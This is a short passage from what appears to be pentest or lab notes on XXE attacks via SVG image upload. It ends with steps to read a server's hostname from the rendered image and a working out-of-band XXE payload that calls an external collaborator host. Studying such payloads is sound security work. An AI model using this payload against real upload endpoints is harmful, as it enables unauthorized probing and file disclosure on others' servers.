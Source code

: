 ![xxe-screenshot](/XXE/Resources/xxeFileUpload.png)
5. Go back to post
6. Inspect element > View profile picture with XXE payload > View source and read `hostname` from the upload image
- **Note:**
	- Detect OOB XXE using normal OOB payload (might trigger 500 error, but that is okay) - just check collaborator
```xml
<?xml version="1.0" standalone="yes"?>
 <!DOCTYPE foo [ <!ENTITY % remote SYSTEM "http://xbchhb5ymn4kzk4xp2m3jjotekkb81wq.oastify.com">
%remote; ]>
 <svg width="256px" height="256px" xmlns="http://www.w3.org/2000/svg" 
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
 <text font-size="23" x="8" y="28">&remote;</text>
 </svg>
```

